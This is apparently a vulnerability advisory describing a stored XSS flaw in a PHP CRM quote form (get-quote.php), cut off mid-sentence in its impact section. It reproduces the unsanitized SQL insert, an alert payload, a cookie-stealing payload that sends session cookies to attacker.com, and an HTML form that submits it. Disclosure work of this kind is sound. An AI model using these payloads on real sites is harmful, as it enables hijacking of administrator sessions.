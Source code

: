 ```php
    mysqli_query($con,"insert into prequest(name,email,contactno,company,services,others,query,posting_date) values('$name','$email','$contact','$company','$services','$other','$query','$pd')");
    echo "<script>alert('Query received. We will contact you soon.');</script>";  
    echo "<script>window.location.href='get-quote.php'</script>";
}
?>
```

The script takes user inputs from the form (name, email, contact, company, services, other, and query) and directly incorporates them into an SQL query to store the data in the database. While the services input is sanitized using mysqli_real_escape_string and addslashes, the company and query parameters are not properly sanitized or encoded when being echoed back in the response. This lack of proper sanitization and encoding allows for the injection and storage of malicious scripts in the database.

### Exploitation
To exploit this vulnerability, an attacker can craft a payload that includes malicious JavaScript code in the company or query parameter. When the administrator views the quote request, the injected script will execute in their browser.

### Example Exploit Payload
By submitting the following payload in the query parameter:
```
<script>alert('XSS');</script>
```
The attacker can trigger an XSS attack when the administrator views the quote request.

### Stealing Admin Cookies
A more harmful payload can be crafted to steal the administrator's session cookies. By using the following payload in the query parameter:

```
<script>document.location='http://attacker.com/steal-cookie?cookie='+document.cookie;</script>
```
The attacker can send the administrator's cookies to a remote server controlled by the attacker.

### Steps to Exploit
Submit Malicious Quote Request: The attacker fills out the quote request form, injecting the malicious payload into the company or query field.
```
<form method="post" action="get-quote.php">
    <input type="text" name="company" value="CompanyX"><br>
    <input type="text" name="query" value="<script>document.location='http://attacker.com/steal-cookie?cookie='+document.cookie;</script>"><br>
    <input type="submit" name="submit" value="Submit">
</form>
```

Administrator Views Request: When the administrator logs into the CRM system and views the submitted quote, the malicious script executes in their browser, sending their session cookies to the attacker's server.
### Impact
Successful exploitation of this stored XSS vulnerability allows an attacker to execute arbitrary JavaScript in the context of the administrator's browser. This can lead to various malicious actions, including:
